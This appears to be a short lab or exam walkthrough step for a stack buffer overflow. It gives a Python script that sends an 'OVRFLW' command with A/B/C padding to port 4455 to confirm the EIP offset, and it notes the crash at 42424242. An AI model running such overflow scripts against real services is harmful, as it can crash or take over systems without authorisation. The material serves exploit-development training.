



3. Verify Offset

3. Verify Offset


Run the exploit


It crashes at 42424242


ESP points to the beginnning of the C's
EAX points to the beginning of the overflow command

Here is the code to verify offset


```python
kali@kali:~/gitWorkspace/exam/bf$ cat 3_verify_offset.py 
#!/usr/bin/python

import sys, socket

if len(sys.argv) < 2:
    print "\nUsage: " + sys.argv[0] + " <HOST>\n"
    sys.exit()

cmd = "OVRFLW "
filler  = "\x41" * 1493
eip     = "\x42" * 4
bf      = "\x43" * 1503
end = "\r\n"

buffer = cmd + filler + eip + bf + end

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((sys.argv[1], 4455))
s.send(buffer)
s.recv(1024)
s.close()
```


